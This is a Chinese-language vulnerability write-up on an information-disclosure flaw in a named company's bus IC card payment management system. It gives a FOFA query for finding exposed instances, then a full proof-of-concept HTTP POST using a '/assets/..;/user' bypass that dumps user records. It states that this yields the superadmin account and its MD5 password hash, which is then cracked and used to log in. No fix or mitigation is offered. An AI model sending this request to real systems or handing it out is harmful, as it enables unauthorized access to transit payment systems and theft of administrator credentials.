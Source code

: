 # 公交IC卡收单管理系统user存在信息泄露漏洞

### 一、漏洞描述
天津环球磁卡股份有限公司公交IC卡收单管理系统是城市公共交通领域中不可或缺的一部分，它通过集成先进的集成电路技术（IC卡）实现了乘客便捷的支付方式，并有效提高了公共交通运营效率。系统集成了发卡、充值、消费、数据采集、查询和注销等多个功能模块，为公交公司和乘客提供了全面、高效、便捷的公共交通支付解决方案。该系统不仅提升了乘客的出行体验，还降低了公交公司的运营成本，提高了管理效率。公交IC卡收单管理系统user存在信息泄露漏洞可获取超管用户密码等信息。

### 二、影响版本
公交IC卡收单管理系统

### 三、资产测绘
fofa：app="公交IC卡收单管理系统"

![1728633619474-822ce325-951c-4d02-bd6a-b92b134a6a8f.webp](./img/EFit_Q9DuN2vcbtT/1728633619474-822ce325-951c-4d02-bd6a-b92b134a6a8f-256840.webp)

### 四、漏洞复现
```plain
POST /assets/..;/user HTTP/1.1
Host: xxx
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Priority: u=0
Content-Length: 197

_search=false&nd=1727275150716&rowCountPerPage=10&pageNo=1&sidx=USER_NAME&sord=asc&method=select&USER_NAME=&REAL_NAME=&ACCOUNT_EXPIRE_TIME=%E5%BF%BD%E7%95%A5&PASSWORD_EXPIRE_TIME=%E5%BF%BD%E7%95%A5
```

执行POC获取超管用户和MD5密码

![1728633416844-f4af4914-dc37-4340-a849-0bec4e61ad5c.png](./img/EFit_Q9DuN2vcbtT/1728633416844-f4af4914-dc37-4340-a849-0bec4e61ad5c-096345.png)

使用获取到的MD5密码进行解密并登录

![1728633431240-2c38c0ba-5aba-4b3b-8b18-b9a33567e4c6.png](./img/EFit_Q9DuN2vcbtT/1728633431240-2c38c0ba-5aba-4b3b-8b18-b9a33567e4c6-507494.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fi2seglgfyashlz8>
